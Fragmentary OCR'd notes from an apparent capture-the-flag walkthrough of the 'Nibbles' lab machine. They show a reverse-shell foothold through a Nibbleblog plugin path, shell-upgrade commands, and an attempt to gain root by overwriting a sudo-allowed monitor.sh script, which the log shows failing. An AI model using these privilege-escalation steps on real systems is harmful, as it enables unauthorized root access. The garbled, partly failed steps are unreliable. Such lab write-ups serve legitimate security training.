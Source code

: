 nibbleblog/content/private/plugins/my_image

$ whoami
nibbler

got reverse shell

$ cat user.txt
5d5b5b1d39c06f12abff183bea54ce48

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

upgrading shell

 python3 -c 'import pty;pty.spawn("/bin/bash")'
 ctrl + z

 stty raw -echo

 reset

 echo "os.system('/bin/bash')" > monitor.sh

  sudo /home/nibbler/personal/stuff/monitor.sh

      (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$ cd personal
cd personal
bash: cd: personal: No such file or directory
nibbler@Nibbles:/$ cd home
cd home
nibbler@Nibbles:/home$ cd personal
cd personal
bash: cd: personal: No such file or directory
nibbler@Nibbles:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
drwxr-xr-x 23 root    root    4096 Dec 15  2020 ..
drwxr-xr-x  4 nibbler nibbler 4096 May  5 14:37 nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ cd personal
cd personal
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "echo 'os.system('/bin/bash')'" > monitor.sh
<er/personal/stuff$ echo "echo 'os.system('/bin/bash                       ')'" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh
echo 'os.system('/bin/bash')'
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuf                       f/monitor.sh
sudo: /home/nibbler/personal/stuff/monitor.sh: command not found
nibbler@Nibbles:/home/nibbler/personal/stuff$ whoami
whoami
nibbler
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuf                       f/monitor.sh
os.system(/bin/bash)
nibbler@Nibbles:/home/nibbler/personal/stuff$ whoami
whoami
nibbler
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm -rf monitor.sh
rm -rf monitor.sh
